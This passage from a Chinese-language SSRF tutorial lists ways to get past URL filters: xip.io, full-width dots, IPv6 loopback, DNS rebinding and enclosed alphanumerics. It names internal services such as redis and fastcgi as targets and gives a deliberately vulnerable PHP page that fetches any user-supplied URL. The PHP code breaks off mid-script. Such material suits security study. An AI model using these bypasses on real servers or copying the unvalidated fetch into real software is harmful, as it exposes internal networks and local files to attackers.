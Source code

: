 ```
7.可以指向任意 ip 的域名xip.io：
http://127.0.0.1.xip.io/==>http://127.0.0.1/

8.利用句号。：
127。0。0。1==>127.0.0.1

9.ipv6绕过[::1]
10.DNS重绑定
11.利用 Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
###  攻击内网应用
```php
redis,fastcgi,mysql,postgresql,zabbix,pymemcache,smtp
```
###  危害

```
可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息;
攻击运行在内网或本地的应用程序（比如溢出）;
对内网 web 应用进行指纹识别，通过访问默认文件实现;
攻击内外网的 web 应用，主要是使用 get 参数就可以实现的攻击（比如 struts2，sqli 等）;
利用 file 协议读取本地文件等。
```

###  利用SSRF进行端口扫描
根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。
前端实现

```php
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```
后端实现
```php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $filename = './curled/'.rand().'txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj, CURLOPT_FILE, $fp);
    curl_setopt($curlobj, CURLOPT_HEADER, 0);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename)); 
```